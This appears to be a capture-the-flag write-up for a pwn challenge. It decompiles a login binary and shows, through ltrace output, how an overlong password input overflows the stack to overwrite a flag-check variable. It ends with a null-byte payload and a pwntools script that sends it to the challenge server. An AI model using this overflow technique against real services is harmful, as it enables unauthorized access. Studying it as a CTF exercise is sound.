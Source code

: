 # Authorized access only!

Only authorized access is allowed to my service!

`nc authorized-access-only.chall.uiactf.no 1337`
    
[⬇️ chal](./chal)

# Writeup

Opening this in [Dogbolt](https://dogbolt.org/?id=6192b6a1-16f0-417c-a4c1-9751b57c52f5) I see the main function uses gets on the password and allows 200 bytes. This is a classic buffer overflow, so by sending 200 bytes I can overwrite the stack most likely.

```c
undefined8 main(void) {
  int iVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined4 local_38;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  char local_12;
  char local_11;
  FILE *local_10;
  
  local_12 = '\0';
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  initialize();
  puts(
      "This system is for authorized use only. Unauthorized access will result in immediate disconnection!"
      );
  printf("Username: ");
  fgets((char *)&local_28,0x14,stdin);
  printf("\nPassword: ");
  fgets((char *)&local_48,200,stdin);
  putchar(10);
  iVar1 = strncmp((char *)&local_28,"admin",5);
  if (iVar1 == 0) {
    iVar1 = strncmp((char *)&local_48,"l37 m3 3n73r plz!",0x11);
    if (iVar1 == 0) {
      iVar1 = strcmp(&local_12,"true");
      if (iVar1 == 0) {
        local_10 = fopen("./flag.txt","r");
        if (local_10 == (FILE *)0x0) {
          puts("Could not locate flag file! Contact admins to find it!");
                    // WARNING: Subroutine does not return
          exit(1);
        }
        while( true ) {
          iVar1 = fgetc(local_10);
          local_11 = (char)iVar1;
          if (local_11 == -1) break;
          putchar((int)local_11);
        }
        putchar(10);
                    // WARNING: Subroutine does not return
        exit(0);
      }
    }
  }
  printf("DISCONNECTED!");
  return 0;
}
```

A closer look shows me that I need to overwrite `local_12` to be `true` for this to work. Using `ltrace` I can simply see what happens with the data I insert:

`l37 m3 3n73r plz! abcdefgijklmonpqrstuvexyz`

```bash
└─$ ltrace ./chal 
setvbuf(0x7fbf6f495780, nil, 2, 0)                                                                                              = 0
setvbuf(0x7fbf6f494aa0, nil, 2, 0)                                                                                              = 0
setvbuf(0x7fbf6f4956a0, nil, 2, 0)                                                                                              = 0
signal(SIGALRM, 0x55eb895332a9)                                                                                                 = nil
alarm(60)                                                                                                                       = 0
puts("This system is for authorized us"...This system is for authorized use only. Unauthorized access will result in immediate disconnection!
)                                                                                     = 100
printf("Username: "Username: )                                                                                                            = 10
fgets(admin
"admin\n", 20, 0x7fbf6f494aa0)                                                                                            = 0x7ffeb9bcfe40
printf("\nPassword: "
Password: )                                                                                                          = 11
fgets(l37 m3 3n73r plz! abcdefgijklmonpqrstuvexyz
"l37 m3 3n73r plz! abcdefgijklmon"..., 200, 0x7fbf6f494aa0)                                                               = 0x7ffeb9bcfe20
putchar(10, 0x7fbf6f494b23, 44, 0x7ffeb9bcfe20
)                                                                                 = 10
strncmp("pqrstuvexyz\n", "admin", 5)                                                                                            = 15
printf("DISCONNECTED!"DISCONNECTED!)                                                                                                         = 13
+++ exited (status 0) +++
```

As we see `strncmp("pqrstuvexyz\n", "admin", 5)` so from the letter `p` I need `admin`.

New input:

`l37 m3 3n73r plz! XXXXXXXXXXXXXXadminpqrstuvexyz`

resulted in:
```bash
strncmp("adminpqrstuvexyz\n", "admin", 5)                                                                                       = 0
strncmp("l37 m3 3n73r plz! XXXXXXXXXXXXXX"..., "l37 m3 3n73r plz!", 17)                                                         = 0
strcmp("", "true")
```

Closing in here. We just need to add more?`

`l37 m3 3n73r plz! XXXXXXXXXXXXXXadminpqrstuvexyz12345658abcdef`

gave me:

```bash
strncmp("adminpqrstuvexyz12345658abcdef\n", "admin", 5)                                                                         = 0
strncmp("l37 m3 3n73r plz! XXXXXXXXXXXXXX"..., "l37 m3 3n73r plz!", 17)                                                         = 0
strcmp("58abcdef\n", "true")                                                                                                    = -63
```

New input: 

`l37 m3 3n73r plz! XXXXXXXXXXXXXXadminXXXXXXXXXXXXXXXXXtrue`

```bash
strncmp("adminXXXXXXXXXXXXXXXXXtrue\n", "admin", 5)                                                                             = 0
strncmp("l37 m3 3n73r plz! XXXXXXXXXXXXXX"..., "l37 m3 3n73r plz!", 17)                                                         = 0
strcmp("true\n", "true")                                                                                                        = 10
```

Close, but that newline must be gone. I struggeled a bit here but Decoy found out that we could just insert a nullbyte.

```bash
$ echo -ne "\nl37 m3 3n73r plz! XXXXXXXXXXXXXXadminXXXXXXXXXXXXXXXXXtrue\x00" | ./chal
This system is for authorized use only. Unauthorized access will result in immediate disconnection!
Username: 
Password: 
LOCAL_TEST_FLAG
```

Lets try agains the remote, unfortunally I could not get the `echo xx | nc..` work so I used a [python script](./solve.py):

```python
from pwn import *
context.log_level = "error"
    
r = remote("authorized-access-only.chall.uiactf.no", 1337)
r.recvuntil(b"Username: ")
r.sendline(b"admin")
r.recvuntil(b"Password: ")
r.sendline(b"l37 m3 3n73r plz!XXXXXXXXXXXXXXXadminXXXXXXXXXXXXXXXXXtrue\x00")
print(r.recvall().strip().decode())
```